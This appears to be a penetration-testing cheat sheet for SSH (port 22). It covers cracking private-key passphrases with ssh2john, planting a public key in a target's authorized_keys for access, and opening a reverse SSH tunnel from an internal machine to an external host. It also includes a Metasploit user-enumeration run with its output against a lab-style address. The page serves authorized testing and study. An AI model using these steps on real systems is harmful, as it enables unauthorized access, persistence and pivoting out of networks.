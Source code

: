 # 22 - SSH

### Add an SSH-key

```
ssh-keygen -t rsa
ssh-copy-id -i ~/.ssh/id_rsa.pub root@x.x.x.x
```

### Decrypt RSA file

```
ssh2john id_rsa
```

or you can user [sshng2john](https://raw.githubusercontent.com/stricture/hashstack-server-plugin-jtr/master/scrapers/sshng2john.py) which supports cracking into a format for [jumbo john](https://github.com/openwall/john) (john the ripper but for GPU)

```
pyhton sshng2john id_rsa
```

### Copy SSH public file

On your target machine:

```
echo "<your .ssh/key.pub>" > ~/.ssh/authorized_keys
```

### Reverse SSH tunnel

On the internal machine:

```
ssh -R 19999:localhost:22 leon@externalip.com
```

Creates listening tunnel on 19999

On the external machine:

```
ssh user@localhost -p19999
```

Connects to 19999 to ssh back to the start of the tunnel using the remote machine's username and password

### Enumeration

```
msf5 auxiliary(scanner/ssh/ssh_enumusers) > show options  
Module options (auxiliary/scanner/ssh/ssh_enumusers): 
Name Current Setting Required Description 
---- --------------- -------- ----------- 
CHECK_FALSE false no Check for false positives (random username) 
Proxies no A proxy chain of format type:host:port[,type:host:port][...] 
RHOSTS yes The target address range or CIDR identifier 
RPORT 22 yes The target port 
THREADS 1 yes The number of concurrent threads 
THRESHOLD 10 yes Amount of seconds needed before a user is considered found (timing attack only) 
USERNAME no Single username to test (username spray) 
USER_FILE no File containing usernames, one per line 
Auxiliary action: 
Name Description 
---- ----------- 
Malformed Packet Use a malformed packet 
msf5 auxiliary(scanner/ssh/ssh_enumusers) > set THREADS 50 
THREADS => 50 
msf5 auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 10.10.10.86 
RHOSTS => 10.10.10.86 
msf5 auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE users.lst 
USER_FILE => users.lst 
msf5 auxiliary(scanner/ssh/ssh_enumusers) > run 
[*] 10.10.10.86:22 - SSH - Using malformed packet technique 
[*] 10.10.10.86:22 - SSH - Starting scan 
[-] 10.10.10.86:22 - SSH - User 'jackie.abbott' not found 
[-] 10.10.10.86:22 - SSH - User 'isidro' not found 
[-] 10.10.10.86:22 - SSH - User 'roy' not found 
[-] 10.10.10.86:22 - SSH - User 'colleen' not found 
[-] 10.10.10.86:22 - SSH - User 'harrison.hessel' not found 
[-] 10.10.10.86:22 - SSH - User 'asa.christiansen' not found 
[-] 10.10.10.86:22 - SSH - User 'jessie' not found 
[-] 10.10.10.86:22 - SSH - User 'milton_hintz' not found 
[-] 10.10.10.86:22 - SSH - User 'demario_homenick' not found 
[-] 10.10.10.86:22 - SSH - User 'paris' not found 
[-] 10.10.10.86:22 - SSH - User 'gardner_ward' not found 
[-] 10.10.10.86:22 - SSH - User 'daija.casper' not found 
[-] 10.10.10.86:22 - SSH - User 'alanna.prohaska' not found 
[-] 10.10.10.86:22 - SSH - User 'russell_borer' not found 
[-] 10.10.10.86:22 - SSH - User 'domenica.kulas' not found 
[-] 10.10.10.86:22 - SSH - User 'nick' not found 
[-] 10.10.10.86:22 - SSH - User 'rose' not found 
[-] 10.10.10.86:22 - SSH - User 'pat_wilkinson' not found 
[+] 10.10.10.86:22 - SSH - User 'genevieve' found 
[-] 10.10.10.86:22 - SSH - User 'blaise.sauer' not found 
[-] 10.10.10.86:22 - SSH - User 'abbigail' not found
```

### SSH Mismatch

if you get the error:&#x20;

`Unable to negotiate with 123.123.123.123 port 22: no matching key exchange method found. Their offer: diffie-hellman-group1-sha1`

Use the '-oKexAlgorithms' or '-keyexchange'&#x20;

**Example**:&#x20;

```
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 user@legacyhost
```



### Install ssh v1&#x20;

```
sudo apt-get install -y openssh-client-ssh1
```

